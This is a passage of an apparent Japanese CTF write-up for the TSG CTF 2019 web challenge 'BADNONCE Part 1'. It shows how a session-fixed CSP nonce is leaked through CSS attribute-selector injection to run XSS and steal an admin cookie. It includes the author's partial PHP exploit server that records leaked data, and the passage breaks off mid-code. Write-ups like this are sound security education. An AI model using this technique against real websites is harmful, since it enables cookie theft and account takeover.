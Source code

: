 ```yaml
---
title: TSG CTF write-up (Web) ＃tsg_ctf
date: 2019-05-05 21:00:00
categories: [日記]
tags: [CTF]
---
```


[TSG CTF](https://ctftime.org/event/758)にチームNaruseJunで出ました。4099ptsを獲得して3位でした。
私はWeb問のみを解きました。以下write-upです。



# BADNONCE Part 1 (247pts)

CSPが有効になっているページでXSSしてCookieを盗ってください、という問題でした。

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-<?= $nonce ?>';">
```

問題名が **BADNONCE** なので明らかにnonceの実装が悪そうです。
実際、以下のようにセッションIDに対してnonceが固定なので、これが漏れるとXSSが可能になります。

```php
session_start();
$nonce = md5(session_id());
```

件のnonceは、ページ内の要素の属性として存在しています。

```html
<script nonce=<?= $nonce ?>>
				console.log('Welcome to the dungeon :-)');
</script>
```

ところで、このページでは`script-src`のみ制限されているので、たとえばスタイルシートなどは外部ソースから読み込み放題です。
したがって、CSS Injectionが可能です。セレクタを工夫することによって、要素の属性値を特定することができますね。


>【参考リンク】
> CSS Injection 再入門 – やっていく気持ち
> https://diary.shift-js.info/css-injection/

ただし、管理者のブラウザを模したクローラは、毎回異なるPHPSESSIDを持つため、1度の起動で最後までnonceを抜きとって、XSSを踏ませるところまでやらないといけません。
ちょっと面倒ですが、管理者に攻撃車が用意したURLをIFRAMEで開き続けるページを踏ませて、InjectするCSSを変えながら、最終的にXSSを発火させるようにしました。
以下のような実装になりました。Web問のExploitにしてはちょっと重めかも。もっと頭のいい方法が存在する可能性もあり。

```php
<?php
	if (array_key_exists("save", $_GET)) {
		file_put_contents("flag.txt", $_GET["save"] . PHP_EOL, LOCK_EX | FILE_APPEND);
	}
	else if (array_key_exists("nonce", $_GET)) {
		$nonce = file_get_contents("nonce.txt");
		if (strlen($nonce) < strlen($_GET["nonce"])) {
			file_put_contents("nonce.txt", $_GET["nonce"], LOCK_EX);
		}
	}
	else if (array_key_exists("css", $_GET)) {
		header("Content-Type: text/css");
		echo("script { display: block }" . PHP_EOL);

		$nonce = file_get_contents("nonce.txt");
		$chars = str_split("0123456789abcdef");

		foreach ($chars as $c1) {
			foreach ($chars as $c2) {
```